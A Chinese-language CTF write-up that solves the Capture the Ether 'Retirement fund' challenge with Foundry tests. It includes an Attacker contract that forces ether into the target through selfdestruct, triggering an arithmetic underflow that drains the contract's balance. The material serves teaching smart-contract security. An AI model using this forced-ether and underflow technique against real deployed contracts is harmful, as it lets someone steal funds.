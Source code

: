 # Retirement fund

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/retirement-fund/)

原题目要求 RetirementFundChallenge 合约的 ether 余额为 0。最开始的时候 owner 会充值 1 ether 到合约。

## 运行

**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Retirement_fund -vvv
```

## 功能简述

在原题 `^0.4.21` 版本下，所有的算术操作都是 unchecked，因此为了能够复现这个 Challenge，我给 collectPenalty 里面的某一行增加了 unchecked。

TokenWhaleChallenge 有两个角色，一个是 owner，他部署了这个合约，并锁定了 1 ether。另一个是 player，如果 owner 提前提走资金，合约的以太币的 10% 会转到 player。

该合约的问题是使用了 `address(this).balance` 来作为判定条件，实际上一个合约的 ether balance 是可以使用出块时 coinbase 的充值或者其他合约的 selfdestruct 来强制改变的。

解决思路是，player 转入合约一定量的 ether，使得 `withdrawn = startBalance - address(this).balance` 成为一个下溢出的数，然后转移所有的资金。

在 testRetirementFund1 测试函数中，尝试直接 RetirementFundChallenge 合约转账失败，因为原合约里面没有实现 fallback/receive 函数

```sol
        vm.startPrank(hacker);
        vm.expectRevert();
        payable(address(retirementFundChallenge)).transfer(1 wei);

        vm.expectRevert();
        retirementFundChallenge.collectPenalty();
        vm.stopPrank();
```

因此我们需要部署一个辅助合约来强制转移 ether。

这个是辅助合约 Attacker，在执行构造函数的时候就自我销毁，并将余额转入 target 地址。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract Attacker {
    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

然后我们在 testRetirementFund2 里，使用 1 wei 创建 Attacker，这样就能强制将 1 wei 转入 RetirementFundChallenge 合约

```solidity
        vm.startPrank(hacker);
        new Attacker{value: 1 wei}(payable(address(retirementFundChallenge)));

        retirementFundChallenge.collectPenalty();
        vm.stopPrank();
```

